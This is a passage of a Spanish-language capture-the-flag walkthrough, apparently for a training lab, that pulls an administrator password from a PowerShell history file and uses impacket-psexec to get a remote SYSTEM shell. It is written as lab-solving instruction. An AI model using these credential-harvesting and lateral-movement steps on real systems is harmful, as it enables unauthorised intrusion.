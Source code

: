 🗹 Leer el archivo del historial de la consola:

```
PS C:\Users\sql_svc\Downloads> more C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
more C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

🗹 Conectarse al servidor mediante `impacket-psexec` usando la contraseña encontrada:

```shell
impacket-psexec administrator@10.129.120.129

Impacket v0.12.0.dev1+20240308.164415.4a62f391 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.120.129.....
[*] Found writable share ADMIN$
[*] Uploading file fmcXjNTR.exe
[*] Opening SVCManager on 10.129.120.129.....
[*] Creating service vIZG on 10.129.120.129.....
[*] Starting service vIZG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```
## Root flag

La root flag se encuentra en el directorio `C:\Users\Administrator\Desktop\`.
